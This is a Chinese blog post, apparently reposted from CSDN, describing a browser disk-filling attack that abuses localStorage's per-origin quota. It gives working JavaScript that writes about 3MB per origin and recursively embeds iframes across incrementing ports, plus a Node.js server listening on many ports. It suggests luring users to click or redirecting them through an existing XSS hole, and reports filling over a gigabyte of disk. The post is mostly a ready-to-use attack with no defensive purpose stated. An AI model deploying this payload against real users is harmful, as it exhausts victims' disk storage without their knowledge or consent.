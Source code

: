 ```yaml
---
title: "LocalStorage 的一个漏洞"
id: csdn50695843
---
```


LocalStorage 是 html5 的本地存储，其中的内容以文件的形式保存在本地磁盘中。

一个域（协议+域名+端口）的文件大小PC端为5~10M，移动端不大于2.5M。

但是我们可以在端口上做点手脚，因为端口是可控的，我们可以开一个服务器监听很多个端口，然后输出的页面使用iframe进行递归包含。

比如我们的页面可以嵌入以下代码：

```
(function(){
    var maxPort = ...;

    // 写文件
    var s = "";
    for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
    }
    localStorage.setItem('k', s);

    var port = parseInt(location.port) + 1;
    if(port > maxPort) return;

    if(port % 50 == 0){
        //每50个重定向一次，防止崩溃
        window.location.href = url;
    } else {
        // 新添加iframe
        var url = "http://example.com:" + port;
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
    }
})();
```

之后我们用Node.js架设服务器：

```
var http = require('http');
var fs = require('fs');

var content = fs.readFileSync('./index.html');

var maxPort = ...;

for(var port = 1000; port < maxPort; port++){
    http.createServer(function (request, response) {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
    }).listen(port);
}
```

我们可以给页面加点装饰，诱导用户点击。也可以使用现有的XSS漏洞重定向过去。

测试结果

100个端口有几乎500MB

![](../img/c324afd1d2dd4b88918af96c489c0181.png)

200个端口则有1.17个G

![](../img/d7244d27480e142fc44a3a5bb778c8e8.png)

如果将端口调整至2000个

![](../img/f3b1a4a10ff916e67f47e6b49be22279.png)

GG。

注

来源：[作为一个前端，可以如何机智地弄坏一台电脑？](http://litten.github.io/2015/07/06/hack-in-localstorage/)